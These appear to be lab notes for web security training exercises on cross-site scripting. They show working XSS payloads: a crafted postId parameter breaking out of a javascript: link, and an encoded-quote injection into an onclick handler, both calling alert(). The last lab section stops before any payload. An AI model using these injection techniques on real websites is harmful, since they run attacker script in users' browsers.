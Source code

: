 ```
<p>&lt; &gt; / &apos; &quot; : ; =</p>
```

`/ : ; =` are allowed.

```
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5'}).finally(_ => window.location = '/')">Back to Blog</a>
```

```
GET /post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27 HTTP/1.1

Decoded:
GET /post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:' HTTP/1.1

The link:
javascript:fetch('/analytics', {method:'post',body:'/post?postId=5&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:''}).finally(_ => window.location = '/')
```

### Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

This lab contains a stored cross-site scripting vulnerability in the comment functionality.

**Post a comment:**

```
In response:
<a id="author" href="https://www.test4.com" onclick="var tracker={track(){}};tracker.track('https://www.test4.com');">test2</a>
```

```
&apos;-alert(1)-&apos;
&apos;alert(1);//

onclick="var tracker={track(){}};tracker.track('https://www.test4.com&apos;-alert(1)-&apos;');"
```

### Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

This lab contains a reflected cross-site scripting vulnerability in the search blog functionality. The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped.

**Search -> 12345678**

```
<script>
	var message = `0 search results for '12345678'`;
	document.getElementById('searchMessage').innerText = message;
</script>
```
